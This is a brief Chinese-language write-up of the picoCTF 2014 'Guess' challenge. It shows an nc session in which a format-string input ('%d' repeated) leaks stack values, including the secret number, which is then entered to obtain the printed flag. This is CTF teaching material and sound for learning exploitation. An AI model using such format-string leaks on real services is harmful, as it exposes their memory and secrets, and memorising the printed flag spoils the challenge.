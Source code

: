 # Guess
看原始碼，發現有 *format string vulnerability*，那麼只要印出stack裡的數值，一個一個猜就行了：
```bash
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%d.%d.%d.%d.%d.%d
Welcome to the guessing game, 32.-142918624.156700680.-658156941.47.156700680

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
-658156941
Wow! You guessed it!
Your flag is: leak_the_seakret
```
